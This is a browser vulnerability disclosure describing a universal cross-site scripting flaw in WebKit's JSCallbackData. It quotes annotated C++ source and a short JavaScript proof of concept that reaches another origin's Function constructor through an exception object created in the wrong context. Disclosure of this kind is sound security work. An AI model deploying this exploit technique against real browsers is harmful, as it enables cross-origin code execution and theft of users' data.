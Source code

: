 # UXSS with JSCallbackData
### Reported by lokihardt@google.com, Jan 3 2017

Here is the definition of `JSCallbackData` class. This class is used to call a javascript function from a DOM object.
```cpp
class JSCallbackDataStrong : public JSCallbackData {
public:
    JSCallbackDataStrong(JSC::JSObject* callback, void*)
        : m_callback(callback->globalObject()->vm(), callback)
    {
    }

    JSC::JSObject* callback() { return m_callback.get(); }
    JSDOMGlobalObject* globalObject() { return JSC::jsCast<JSDOMGlobalObject*>(m_callback->globalObject()); }

    JSC::JSValue invokeCallback(JSC::MarkedArgumentBuffer& args, CallbackType callbackType, JSC::PropertyName functionName, NakedPtr<JSC::Exception>& returnedException)
    {
        return JSCallbackData::invokeCallback(callback(), args, callbackType, functionName, returnedException);
    }

private:
    JSC::Strong<JSC::JSObject> m_callback;
};

JSValue JSCallbackData::invokeCallback(JSObject* callback, MarkedArgumentBuffer& args, CallbackType method, PropertyName functionName, NakedPtr<JSC::Exception>& returnedException)
{
    ASSERT(callback);

    auto* globalObject = JSC::jsCast<JSDOMGlobalObject*>(callback->globalObject());  <<<---------- (1)
    ASSERT(globalObject);

    ExecState* exec = globalObject->globalExec();
    JSValue function;
    CallData callData;
    CallType callType = CallType::None;

    if (method != CallbackType::Object) {
        function = callback;
        callType = callback->methodTable()->getCallData(callback, callData);
    }
    if (callType == CallType::None) {
        if (method == CallbackType::Function) {
            returnedException = JSC::Exception::create(exec->vm(), createTypeError(exec));  <<<---------- (2)
            return JSValue();
        }
        ...
    }
    ...
}
```
But `JSCallbackData::invokeCallback` method obtains the `ExecState` object from the callback object. So if we invoke `JSCallbackData::invokeCallback` method with the different origin's window as `callback`, an exception object will be created from the different domain's javascript context.

PoC:
```js
"use strict";

let f = document.body.appendChild(document.createElement("iframe"));
f.onload = () => {
    f.onload = null;

    try {
        let iterator = document.createNodeIterator(document, NodeFilter.SHOW_ALL, f.contentWindow);
        iterator.nextNode();
    } catch (e) {
        e.constructor.constructor("alert(location)")();
    }
};

f.src = "https://abc.xyz/";
```
